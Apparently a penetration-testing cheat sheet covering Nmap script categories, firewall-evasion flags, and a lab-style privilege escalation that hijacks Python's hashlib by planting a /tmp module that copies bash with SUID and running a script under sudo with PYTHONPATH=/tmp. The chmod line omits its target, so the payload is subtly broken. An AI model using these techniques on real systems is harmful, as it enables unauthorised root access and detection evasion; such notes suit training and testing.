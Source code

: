 ##### Nmap Script Scan Types:
```
    safe:- Won't affect the target
    intrusive:- Not safe: likely to affect the target
    vuln:- Scan for vulnerabilities
    exploit:- Attempt to exploit a vulnerability
    auth:- Attempt to bypass authentication for running services (e.g. Log into an FTP server anonymously)
    brute:- Attempt to bruteforce credentials for running services
    discovery:- Attempt to query running services for further information about the network (e.g. query an SNMP server).
```

##### Nmap default Scripts 
```
/usr/share/nmap/scripts/script.db
```

##### Firewall Evasion With Nmap
```
##### Nmap SYN Scan
During this scan only half packet is sent and reset flag is sent at end. This allows attacker to bypass old IDS.

-pN [Continues Scanning even if the host is not responding to ICMP packet]
-f [Breaks packet into fragments of Packets]
--scan-delay <time>ms [USeful if the network is unstable]
```

##### Privilege Escalation Via Python Library Hijacking
```
Vulnerable hashlib.py
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()


```

Here, we dont have write permission on the hashlib.py file but have write perm in the library hashlib

####Create following file in /tmp directory with SUID flag set
```
hashlib.py
#!/usr/bin/env python3

import os
os.system("cp /bin/bash /tmp/bash; chmod +s; /tmp/bash")

```

##### sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
